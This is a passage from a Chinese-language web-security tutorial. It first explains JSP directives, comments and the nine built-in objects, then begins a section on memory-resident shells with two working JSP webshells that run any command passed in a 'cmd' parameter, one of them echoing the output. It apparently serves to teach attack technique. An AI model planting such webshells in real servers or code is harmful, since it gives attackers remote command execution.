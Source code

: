 #### JSP指令  
JSP指令用来设置与整个JSP页面相关的属性。下面有三种JSP指令  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409131247215.png)
比如我们能通过page指令来设置jsp页面的编码格式  
```java  
&lt;%@ page language=&#34;java&#34; contentType=&#34;text/html; charset=UTF-8&#34; pageEncoding=&#34;UTF-8&#34;%&gt;  
```  
#### JSP注释  
格式如下  
```java  
&lt;%-- 注释内容 --%&gt;  
```  
### JSP内置对象  
JSP有九大内置对象，他们能在客户端与服务端交互的过程中分别完成不同的功能。其特点如下  
由JSP规范提供，不用编写者实例化  
通过Web容器实现和管理  
所有JSP页面均可使用  
只有在脚本元素的表达式或代码段中才能使用  
  
| 对  象                                                       | 类型                                     | 说  明                                                                                            |  
| ---------------------------------------------------------- | -------------------------------------- | ----------------------------------------------------------------------------------------------- |  
| [request](https://drun1baby.top/jsp2/request.html)         | javax.servlet.http.HttpServletRequest  | 获取用户请求信息                                                                                        |  
| [response](https://drun1baby.top/jsp2/response.html)       | javax.servlet.http.HttpServletResponse | 响应客户端请求，并将处理信息返回到客户端                                                                            |  
| [out](https://drun1baby.top/jsp2/out.html)                 | javax.servlet.jsp.JspWriter            | 输出内容到 HTML 中                                                                                    |  
| [session](https://drun1baby.top/jsp2/session.html)         | javax.servlet.http.HttpSession         | 用来保存用户信息                                                                                        |  
| [application](https://drun1baby.top/jsp2/application.html) | javax.servlet.ServletContext           | 所有用户共享信息                                                                                        |  
| [config](https://drun1baby.top/jsp2/config.html)           | javax.servlet.ServletConfig            | 这是一个 Servlet 配置对象，用于 Servlet 和页面的初始化参数                                                          |  
| [pageContext](https://drun1baby.top/jsp2/pagecontext.html) | javax.servlet.jsp.PageContext          | JSP 的页面容器，用于访问 page、request、application 和 session 的属性                                           |  
| [page](https://drun1baby.top/jsp2/page_object.html)        | javax.servlet.jsp.HttpJspPage          | 类似于 Java 类的 this 关键字，表示当前 JSP 页面                                                                |  
| [exception](https://drun1baby.top/jsp2/page.html)          | java.lang.Throwable                    | 该对象用于处理 JSP 文件执行时发生的错误和异常；只有在 JSP 页面的 page 指令中指定 isErrorPage 的取值 true 时，才可以在本页面使用 exception 对象。 |  
## 0x03 传统内存马  
讲完了Tomcat架构的理解和JSP的一些基础，就可以正式学习内存马了  
先看一下传统的JSP内存马  
```java  
&lt;%  
Runtime.getRuntime().exec(request.getParameter(&#34;cmd&#34;));  
%&gt;  
```  
上面的webshell没有回显  
下面是一个带回显的JSP木马  
```java  
&lt;%    
if(request.getParameter(&#34;cmd&#34;)!=null){    
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(&#34;cmd&#34;)).getInputStream();    
    int a = -1;    
    byte[] b = new byte[2048];    
    out.print(&#34;&lt;pre&gt;&#34;);    
    while((a=in.read(b))!=-1){    
        out.print(new String(b));    
    }    out.print(&#34;&lt;/pre&gt;&#34;);    
}    
    
%&gt;  
```  